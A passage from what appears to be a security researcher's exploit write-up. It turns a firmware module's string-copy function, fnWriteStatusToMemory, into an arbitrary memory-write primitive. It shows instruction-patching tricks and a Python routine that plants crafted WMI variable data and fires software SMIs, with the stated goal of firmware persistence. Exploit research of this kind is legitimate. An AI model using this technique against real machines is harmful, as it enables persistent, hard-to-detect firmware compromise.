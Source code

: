 With RAX set to 0x0, I use the same trick, but this time, 0x66 is already in place, so I just need two 0x0 bytes—which I just happen to have already in RAX from the last step:

`66 89 02 mov [rdx], ax`

becomes:

`66 00 00 data16 add BYTE PTR [rax],al`

And with that, the function will no longer write `0x20 0x00` at the start of `DestAddress` - putting me one step closer the finish line. I simply need to take into consideration that the function begins writing whatever data I want at +0x2 bytes from my target address (so, target-0x79-0x2).

To recap what’s been changed so far:

*   “Access Denied” was zero’d out in the module’s `.data` segment, allowing for a two byte (0x20 0x00 write primitive)
*   Using the 0x20 0x00 primitive, the address of the first parameter passed to `fnWriteStatusToMemory` was updated - there now exists a way to write any byte(s) at an attacker controlled address to another address (albeit as a wide byte)
*   Using the new primitive above, `fnWriteStatusToMemory` was modified so that `0x20 0x00` is no longer prepended to the first parameter when the function is called

A few more changes need to be made to have a true write-where primitive, but the exploit is almost done!

##### [#](#a-real-memcpy-please) A Real Memcpy, Please!

A limitation exists with `fnWriteStatusToMemory` and its write capabilities: it stops looping when it encounters `0x0` since it’s purpose was to copy a string… and that just won’t do.

But, if I can write memcpy-esque shellcode that has no 0x0 bytes, then I’m one step closer to firmware persistence.

Remember, I control RCX when `fnWriteStatusToMemory` is called, so only a little more creativity is needed.

Here’s what I cooked up:

```
def disable_0x20(self):
    primitive = b"\x66\x00\x00\x00\x00\x00\x00"

    data = self.gen_bad_var_data(
        wmi_memaddr=self.MovEax20Address, # mov     eax, 20h ; ' '
        write_primitive=primitive,
    )

    self.set_wmi_var(data)

    self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)

    # nothing other than 0x0 0x00 will be written with this set to null
    primitive = b"\x00\x00\x00\x00\x00\x00\x00"

    data = self.gen_bad_var_data(
        wmi_memaddr=self.MovRdxAxAddress, # mov [rdx], ax
        write_primitive=primitive,
    )

    self.set_wmi_var(data)

    self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)
```
